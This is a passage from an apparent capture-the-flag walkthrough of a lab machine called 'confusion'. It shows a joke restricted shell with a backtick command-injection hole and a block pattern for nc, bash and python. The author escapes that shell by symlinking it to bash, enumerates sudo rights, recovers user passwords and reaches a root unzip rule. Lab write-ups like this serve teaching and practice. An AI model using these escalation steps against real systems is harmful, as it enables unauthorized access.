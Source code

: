 Okay, that's annoying. Let's see what it is:

{% highlight shell %}
Welcome To My Secret Most Secure Shell :p
cat /home/still/SoMuchConfusion
cat /home/still/SoMuchConfusion
#!/bin/bash echo "Welcome To My Secret Most Secure Shell :p" read secure_shell if [[ $secure_shell == "id" ]] then echo "uid=0(root) gid=0(root) groups=0(root)" elif [[ $secure_shell == "whoami" ]] then echo "root" elif [[ $secure_shell == "python3" ]] then echo `$secure_shell` elif [[ $secure_shell =~ ^nc* || $secure_shell =~ ^bash* || $secure_shell =~ ^python* ]] then echo "Smooooooth Hehe :p" elif [[ -z $secure_shell ]] then echo "Bye-Bye" else echo `$secure_shell` command not found fi command not found
iamroot@confusion:/etc/apt$
{% endhighlight %}

Let's kill it with fire:

{% highlight shell %}
iamroot@confusion:/$ su still
su still
Password: confused?

Welcome To My Secret Most Secure Shell :p
ln -sf /bin/bash /home/still/SoMuchConfusion
ln -sf /bin/bash /home/still/SoMuchConfusion
command not found
iamroot@confusion:/$ su still
su still
Password: confused?

still@confusion:/$ id
id
uid=1001(still) gid=1001(still) groups=1001(still)
still@confusion:/$ hostname
hostname
confusion
still@confusion:/$ pwd 
pwd
/
still@confusion:/$ cd ~
cd ~
still@confusion:~$
{% endhighlight %}

That's better.

{% highlight shell %}
still@confusion:/$ sudo -l
sudo -l
Matching Defaults entries for still on confusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User still may run the following commands on confusion:
    (sammy) NOPASSWD: /usr/bin/python3 /opt/password.py
still@confusion:/$ sudo -u sammy /usr/bin/python3 /opt/password.py
sudo -u sammy /usr/bin/python3 /opt/password.py
QWJCYXJQbmFQZW5weFpsQ25mZmpiZXEK
still@confusion:/$ su sammy
Password: NoOneCanCrackMyPassword
sammy@confusion:/$ sudo -l
sudo -l
Matching Defaults entries for sammy on confusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sammy may run the following commands on confusion:
    (root) NOPASSWD: /usr/bin/unzip